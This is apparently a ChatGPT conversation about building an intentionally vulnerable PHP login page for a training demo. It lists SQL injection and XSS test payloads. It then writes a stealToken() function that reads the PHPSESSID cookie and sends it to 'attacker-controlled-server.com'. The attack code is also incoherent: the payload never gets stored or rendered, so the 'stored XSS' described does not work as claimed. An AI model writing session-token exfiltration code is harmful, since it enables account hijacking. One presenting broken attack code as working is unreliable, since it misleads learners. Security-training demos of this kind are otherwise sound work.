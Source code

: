 

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Simple Login</title>
</head>
<body>
    <form id="loginForm">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username" required>
        <br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password" required>
        <br>
        <button type="button" onclick="submitLogin()">Login</button>
    </form>

    <div id="result"></div>

    <script>
        function submitLogin() {
            var username = document.getElementById('username').value;
            var password = document.getElementById('password').value;
            
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == 4) {
                    if (xhr.status == 200) {
                        document.getElementById('result').innerHTML = xhr.responseText;
                    } else {
                        document.getElementById('result').innerHTML = 'Error: ' + xhr.status;
                    }
                }
            };
            
            xhr.open('POST', 'process_login.php', true);
            xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
            xhr.send('username=' + encodeURIComponent(username) + '&password=' + encodeURIComponent(password));
        }
    </script>
</body>
</html>

```
Create a PHP script to process the login (process_login.php):


```
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];

    // Simulate user authentication (In a real-world scenario, use proper authentication mechanisms)
    if ($username === 'admin' && $password === 'password') {
        echo "Login successful. Welcome, $username!";
    } else {
        echo "Login failed. Invalid credentials.";
    }
}
?>
```

In this example, the login form sends a POST request to the server with the entered username and password. 
The server checks if the credentials match a hardcoded set (for simplicity; in a real-world scenario, you would use proper authentication mechanisms).

You can demonstrate potential vulnerabilities by manipulating the credentials in the payload. 
For example, if the server doesn't properly validate and sanitize input, an attacker might try sending malicious payloads, such as SQL injection or other types of injection attacks.

Encourage your engineers to test the application with payloads like:

Valid credentials: admin and password.
SQL injection payload: admin' OR '1'='1' -- (to see if it bypasses authentication).
XSS payload: <script>alert('XSS')</script> (to see if it executes JavaScript).
This example is intentionally vulnerable for educational purposes. In a real-world scenario, always implement proper input validation, parameterized queries, and secure authentication mechanisms to prevent security vulnerabilities.



User
ok but how would this turn into a stored XSS that we could use to demonstrate getting the admin token through XHR fetch?
ChatGPT
To turn the example into a stored XSS vulnerability that could potentially be used to steal an admin token through XHR fetch, you can modify the PHP script (process_login.php) to store the user's session token in a way that makes it accessible to attackers. Please note that these modifications are for educational purposes only, and you should never implement such vulnerabilities in a production environment.

Here's a modified version of process_login.php to illustrate a stored XSS vulnerability:

```
<?php
session_start();

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'];
    $password = $_POST['password'];

    // Simulate user authentication (In a real-world scenario, use proper authentication mechanisms)
    if ($username === 'admin' && $password === 'password') {
        $token = generateRandomToken();  // Generate a random token for the user
        $_SESSION['token'] = $token;     // Store the token in the session
        echo "Login successful. Welcome, $username!";
    } else {
        echo "Login failed. Invalid credentials.";
    }
}

function generateRandomToken() {
    return bin2hex(random_bytes(32));  // Generate a random 64-character token
}
?>
```
In this modified script, when the admin logs in successfully, 
a random token is generated and stored in the $_SESSION['token']. This token simulates an authentication token or session identifier.

Now, let's modify the JavaScript in index.html to perform a malicious action when a user submits the login form:

```
<script>
    function submitLogin() {
        var username = document.getElementById('username').value;
        var password = document.getElementById('password').value;

        var xhr = new XMLHttpRequest();
        xhr.onreadystatechange = function() {
            if (xhr.readyState == 4) {
                if (xhr.status == 200) {
                    document.getElementById('result').innerHTML = xhr.responseText;
                } else {
                    document.getElementById('result').innerHTML = 'Error: ' + xhr.status;
                }
            }
        };

        // Injecting malicious payload to steal the admin token
        xhr.open('POST', 'process_login.php', true);
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr.send('username=' + encodeURIComponent(username) + '&password=' + encodeURIComponent(password) +
                 '&maliciousPayload=<img src=x onerror="stealToken()">');
    }

    // Malicious function to steal the admin token
    function stealToken() {
        var token = document.cookie.match(/PHPSESSID=([^;]+)/);
        alert('Admin Token Stolen!\nToken: ' + token[1]);
        // Send the stolen token to an attacker-controlled server using XHR fetch
        var xhr = new XMLHttpRequest();
        xhr.open('GET', 'https://attacker-controlled-server.com/steal.php?token=' + token[1], true);
        xhr.send();
    }
</script>

```



